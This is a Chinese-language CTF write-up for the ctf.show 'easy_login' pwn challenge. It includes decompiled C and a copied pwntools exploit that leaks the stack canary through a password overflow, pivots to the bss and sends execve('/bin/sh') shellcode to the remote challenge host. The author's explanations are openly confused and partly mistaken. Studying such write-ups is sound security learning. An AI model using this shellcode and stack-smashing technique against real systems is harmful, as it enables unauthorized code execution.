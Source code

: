 # easy_login

[题目地址](https://ctf.show/challenges#easy_login-3833)

我去怎么看了wp都不懂。

-   Arch:     amd64-64-little
    <br>RELRO:    No RELRO
    <br>Stack:    Canary found
    <br>NX:       NX disabled
    <br>PIE:      No PIE (0x400000)
    <br>RWX:      Has RWX segments

很少见到防护开成这样的程序。观察一下main。

```c
undefined8 Main(void)

{
  undefined4 uVar1;
  int iVar2;
  long in_FS_OFFSET;
  undefined local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  memset(local_38,0,0x20);
  FUN_0040096a();
  FUN_00400957();
  puts("welcome to the second challenge!\nwhat you need to do it to login successfully!");
  puts("then enjoy the game!");
  while (iVar2 = Login(), iVar2 != 0) {
    FUN_00400d03();
    GetInput(local_38,2);
    uVar1 = FUN_00400a23(local_38);
    switch(uVar1) {
    default:
      puts("Illegal input");
      break;
    case 1:
      FUN_00400d62();
      break;
    case 2:
      FUN_0040104d();
      break;
    case 3:
      FUN_00400eca();
      break;
    case 4:
      FUN_00401181();
      break;
    case 5:
      IsLogin = 0;
      IsAdmin = 0;
      memset(&DAT_006022e0,0,0x10);
      memset(&DAT_006022f0,0,0x10);
      break;
    case 6:
      FUN_004013bd();
      break;
    case 7:
      FUN_00401367();
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

这次学聪明了，程序里说这次的任务是login就不看别的了。

```c
undefined8 DoLogin(void)

{
  int iVar1;
  ssize_t sVar2;
  long in_FS_OFFSET;
  undefined8 name;
  undefined8 local_40;
  char local_38 [16];
  undefined8 password;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  memset(&name,0,0x10);
  memset(local_38,0,0x10);
  memset(&password,0,0x10);
  iVar1 = open("/dev/urandom",0);
  if (iVar1 < 1) {
    puts("open error!there is no such file!");
                    /* WARNING: Subroutine does not return */
    _exit(0);
  }
  sVar2 = read(iVar1,local_38,0x10);
  if (sVar2 < 1) {
    puts("Initialization error. Please check the equipment environment.");
                    /* WARNING: Subroutine does not return */
    _exit(0);
  }
  memset(&name,0,0x10);
  memset(&password,0,0x10);
  puts("please login first!");
  printf("name:       ");
  GetInput(&name,16);
  printf("password:   ");
  GetInput(&password,0x40);
  iVar1 = strcmp((char *)&name,"cat_loves_her");
  if (iVar1 == 0) {
    iVar1 = strcmp((char *)&password,local_38);
    if (iVar1 == 0) {
      IsAdmin = 1;
    }
    else {
      printf("the password %s is wrong!You can try again !",&password);
      printf("password:   ");
      GetInput(&password,0x40);
    }
  }
  IsLogin = 1;
  _DAT_006022e0 = name;
  _DAT_006022e8 = local_40;
  _DAT_006022f0 = password;
  _DAT_006022f8 = local_20;
  printf("%s,welcome to dreamcat\'s easy Databasesystem!\n",&name);
  puts("here you will learn how to play ctfpwn!");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

password倒是有很明显的栈溢出，可以溢出到canary并在密码错误时的输出拿到canary。没开nx理论上可以直接ret2shellcode，可是没找到bss段（ghidra里显示bss段少了一部分！它不会显示程序中未加载的bss段，到0x0060233f就结束了……）。也不能ret2libc，似乎未绑定libc。新手杯难度变换坡度这么恐怖的吗？看眼wp。

```python
from pwn import *
context.arch='amd64'
#r=process('./pwn2')
r=remote("pwn.challenge.ctf.show",28105)
bss_addr = 0x602400
read_pwd = 0x400C7D

# gdb.attach(r,'b *0x400C89')
context.log_level = 'debug'

r.sendlineafter("name:",b'cat_loves_her')

r.sendlineafter("password:",b'X'*0x19)

r.recvuntil(b"X"*0x19)
canary = r.recv(7)
canary = b'\x00'+canary
r.sendlineafter("password:",b'X'*0x18+canary+p64(bss_addr)+p64(read_pwd))

shellcode = b'H\xc7\xc7\x00\x00\x00\x00H\xc7\xc6P$`\x00H1\xc0\x0f\x05\xe8X'
pad = shellcode.ljust(0x18,b'\x00')+canary+p64(bss_addr)
pad += p64(bss_addr-0x20)
r.sendline(pad)
r.sendline(b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05')

r.interactive()
```

!!!直接懵逼。canary之前都看得懂，但是canary之后跟bss_addr是什么意思啊？我怎么记得canary后面是rsp啊，有什么用吗？关键是我尝试把bss_addr换成别的还不行。好吧继续看下去，应该会执行read_pwd，不过当前函数还没有执行完成，有两次getinput，所以先sendline pad。shellcode的内容如下：

```python
shellcode = asm('''
        mov rdi, 0
        mov rsi, 0x602450
        xor rax, rax
        syscall

''')+b'\xe8\x58'
```

系统调用？[查阅](https://blog.csdn.net/qq_29343201/article/details/52209588)后得到系统调用号为0的是read，xor rax rax相当于mov rax 0。(我怀疑是我记错了，1是write，感觉更合理？而且read这参数也不够啊)\xe8\x58不知道是什么东西了。pad中把shellcode靠左对齐后拼上canary以及bss_addr，bss_addr-0x20，最后发送可以getshell的shellcode。

完全不懂。第一个shellcode如果可以直接执行的话，为什么不直接getshell？我能想到的唯一答案是长度不够,password只能输入0x40。我也不明白bss_addr怎么跳转过去的，这里不是rbp吗？我调试看发现下一个要执行的函数确实是read_pwd，那有什么用呢？不懂，真的不懂。可能当前程序所在栈直接可以执行，就不一定要bss了，所以可以执行编译的那段shellcode。我编不出来了。